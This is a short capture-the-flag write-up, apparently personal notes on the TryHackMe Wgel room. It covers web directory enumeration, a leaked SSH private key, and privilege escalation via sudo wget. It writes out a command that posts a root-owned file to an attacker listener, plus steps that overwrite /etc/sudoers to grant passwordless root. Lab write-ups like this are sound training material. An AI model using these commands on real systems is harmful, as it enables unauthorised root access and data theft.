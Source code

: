 
2024-07-01 16:46

Source: #tryhackme 

Tags: [[Privilege Escalation]] 

### HTTP

at port 80 Apache is running
on seeing the source code we see a comment that suggests a possible user on the server 
#### Dirbuster 

1. run gobuster on `http://<ip>`
2. we find /sitemap
3. run gobuster again on `http://<ip>/sitemap`
4. we find `.ssh` private `rsa` key of the user found in the source code
### SSH 

1. copy the content of the key to a file
2. run `chmod 600 file` to give the file appropriate permissions
3. login via [[ssh]] as the user found in the source code, using the file as a private key (use -i to specify key)
### Privilege Escalation 

1. `sudo -l `works and tells us we can run `wget` with `sudo`
2. `gtfobins` has a exploit of file upload for wget
3. start listening using `nc` on port 9000 in a new terminal
4. according to `gtfobins` we craft an attack to directly get the root flag- 
```
sudo wget --post-file=/root/root_flag.txt http://<Attackbox IP>:9000
```
### Root Shell

1. `gtfobin` has exploits listed for file upload/download/read of `wget`
2. To get a shell with admin privileges we first get the file using the same way as with the flag, we edit the `sudoers` file locally by adding our own settings for the user.`/etc/sudoers`
```
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```
3. we raise a server with python3 in the path where our `sudoers` file is .
4. And in the wgel machine we execute the `wget`(to get the new `sudoers` file from our device to the wgel machine) command with `sudo` which will overwrite the `/etc/sudoers`. **We locate ourselves in the folder of `/etc/`** and execute:
```
sudo /usr/bin/wget <Attackbox IP>/sudoers --output-document=sudoers
```
5. then run `sudo su`



### References
[TryHackMe | Wgel CTF](https://tryhackme.com/r/room/wgelctf)